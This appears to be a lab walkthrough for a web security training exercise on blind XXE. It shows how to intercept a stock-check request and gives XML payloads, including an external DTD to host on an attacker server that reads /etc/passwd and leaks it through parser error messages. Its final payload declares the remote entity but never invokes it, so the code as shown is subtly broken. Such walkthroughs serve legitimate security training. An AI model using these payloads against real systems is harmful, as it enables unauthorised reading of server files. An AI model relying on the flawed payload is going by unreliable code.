



# Lab: Exploiting blind XXE to retrieve data via error messages

> Lab Objective: use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

- Check Stock for any product then intercept the request.

- You'll notice that the POST Data is sent in an XML Format.
  

- Try to trigger an XMl Parsing Error using this payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY % xxe SYSTEM "file://doesntmatter.txt">
    %xxe;
]>
<stockCheck>
    <productId>
        1;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- You'll notice the error:
  

- To exfiltrate contents of `/etc/passwd` file.

- Host this payload on exploit server:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval " <!ENTITY &#x25; xxe SYSTEM 'file:///doesntmatter/%file;'>">
%eval;
%xxe;
```

- Then Use this payload in Check Stock Request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY % remote SYSTEM "YOUR-DTD-URL">
]>
<stockCheck>
    <productId>
        1;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- And the response should contain `/etc/passwd/' file contents.
  

- And the lab is solved successfully.
  

---
